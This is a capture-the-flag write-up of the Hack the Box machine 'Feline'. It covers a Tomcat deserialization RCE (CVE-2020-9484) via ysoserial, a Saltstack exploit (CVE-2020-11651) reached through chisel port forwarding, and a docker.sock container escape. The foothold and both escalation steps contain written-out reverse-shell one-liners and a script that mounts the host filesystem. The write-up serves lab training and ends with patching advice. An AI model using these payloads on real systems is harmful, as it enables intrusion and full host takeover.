





<div style="text-align:center">Write-up of Feline - Difficulty : Hard </div>
<!--more-->
>Better to live one year as a tiger, then a hundred as sheep.  
>  
>-Madonna Ciccone  



Hack the Box was having problems and I had to reset my VPN connection halfway through.  
The IP addresses for my parrot box and for Feline change but it should still be easy to follow along.


## 1. Overview

Feline is another Linux box running a simple website.  
There is an upload deserialization vulnerability that leads to remote code execution.  
A local port is running an out of date, exploitable version of Saltstack.  
A to-do list was left in the docker root's home directory that referenced docker.sock.  
Escaping from the docker container using docker.sock allowed us to gain root access on the box.


## 2. Recon

### 2.1 Nmap
As always we start off running a port scan with nmap and we see that ports 22 and 8080 are open.
There appears to be a website called VirusBucket being hosted by Apache on port 8080. Apache is also out of date.

``` bash 
 nmap -sC -sV -T4 10.129.105.79
```


### 2.2 Website
#### 2.2.1 VirusBucket

Next we'll go check out what sites those webservers are hosting.

If we open our browser and go to 10.129.105.79:8080 which brings us to the front page of the **VirusBucket** website



After we do some poking around we wind up on **/service/** where the website allows us to upload files to be *analyzed.* After which the website says it will email us with a generated report.


The website allows us to upload pretty much anything, but to really see what's going on we need to open up Burp and set Firefox to use it as our proxy.  After uploading a few documents and messing with the parameters we found out that if you change the file name to a single period and you'll get a useful error.


Looks like the files are being uploaded into **/opt/samples/uploads/**. If we take a look at the rest of the error message we can see some sort of java deserialization going on.
If we do a bit of googling we wind up at [CVE-2020-9484](https://nvd.nist.gov/vuln/detail/CVE-2020-9484) which is a Tomcat deserialization vulnerability which allows for remote code execution (RCE).

## 3. Foothold

If we take a look at this [write-up](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/) explaining the exploit by RedTimmy.
If you don't already have [ysoserial](https://github.com/frohoff/ysoserial) installed you're going to need it. 
```bash
echo "bash -i >& /dev/tcp/10.10.14.56/1234 0>&1" |base64
$payload="bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Ni8xMjM0IDA+JjEK}|{base64,-d}|{bash,-i}"
java -jar ysoserial-master-d367e379d9-1.jar CommonsCollections2 "${payload}" > hcky.session
```


All we have to do next is upload it with a simple curl command to the same location we saw with Burp.

```bash
curl -F 'image=@hcky.session' http://10.129.105.79:8080/upload.jsp
```


And then call that file we just uploaded by putting the path to the file in the **JSESSIONID** while we have our netcat listener running. As soon as we send the next curl command we should get a callback and a shell.


Thankfully it turns out that the account that we got a shell as is the user Tomcat and he has read access to the user.txt flag in his **/home/** directory.


 
## 4. Privilege Escalation

This is where the IP changed to 10.129.100.82 for Feline and 10.10.14.101 for my Parrot box.


After doing some manual enumeration nothing major seemed to pop out at us.  
Part of the process should always be checking what ports are listening on the box so we run a **netstat -ant** and see what comes up.



Looks like there's something listening on ports **4505/4506**.

After some googling we found that this is **Saltstack** which had a recent RCE vulnerability recently advertised as [CVE-2020-11651](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11651) and there's even a PoC exploit available on Github written by [jasperla](https://github.com/jasperla/CVE-2020-11651-poc)
You'll need to clone the repo and possible install [Salt](https://docs.saltproject.io/en/latest/topics/installation/debian.html) if you don't have it installed already.

Since the ports are only listening locally we decided to use [chisel](https://github.com/jpillora/chisel.git) to do some port forwarding and gain access to port **4506** of Feline like we were running locally.  We served out the chisel file with **python3 -m http.server** and grabbed it as the tomcat user. Next we started the chisel client and server.

```
FELINE-
./chisel client 10.10.14.101:4242 R:4506:127.0.0.1:4506

ATTACKBOX
chisel server -p 4242 --reverse
```


Now that we have chisel connected all we have to do is start our netcat listener and run the **exploit.py** that we cloned earlier.

```
python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.101/1234 0>&1"'
```


Just like that we have root, well... a root.

### 4.1 Privesc Round 2

So as we can tell, we have root, but it's inside a docker container. After some enumeration we wound up finding a **todo.txt** and some commands in **.bash_history** in root's home directory.


We can see that a few commands were run regarding **docker.sock**

After some more googling we wind up with an article relating to taking over with **docker.sock** by [Dejan Zelic](https://dejandayoff.com/the-danger-of-exposing-docker.sock/) as well as the regular Docker [documentation](https://docs.docker.com/engine/api/v1.37/#operation/ContainerCreate) for some sanity checks.
This **simple-exec-with-docker-remote-ip.sh** script by [dapplebeforedawn](https://gist.github.com/dapplebeforedawn/7733a6486f02d21f68053c0c1e43431f) was also useful.

A simple script will get us what we need.
```bash
exploit="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"bash -c 'bash -i >& /dev/tcp/10.10.14.101/2345 0>&1'\\\"\"]"
docker=$(curl -s -X POST --unix-socket /var/run/docker.sock --data-binary "{\"Image\":\"sandbox\",\"cmd\":$exploit, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
ID=$(echo "$docker" | cut -d'"' -f4)
curl --silent -X POST --unix-socket /var/run/docker.sock http://localhost/containers/$ID/start
sleep 5
curl --silent --unix-socket /var/run/docker.sock "http://localhost/containers/$ID/logs?stderr=1&stdout=1"
```
What this should do is create a container, mount the root directory of the host system, start the containter, and then execute the reverse shell that we put in there, giving us a reverse shell on the host machine as root. 
 
We host the script with another python http server and pull it to Feline.  
So we start another netcat listener on an unused port with **nc -lvnp 2345** and run our script.  
As soon as we run the script we should get a shell as root.




## Conclusion

1. Update your software. The exploits used for foothold and the first root were due to outdated software with known exploits.
2. Know the risks of exposing the docker.sock file.  Accept or mitigate as your organization deems necessary.

<br>
<br>
<br>

<div style="text-align:center"><a href="https://www.hackthebox.eu/home/users/profile/190484"></a></div>
<div style="text-align:center">If this write-up was helpful consider leaving some respect on my HTB profile.</div>
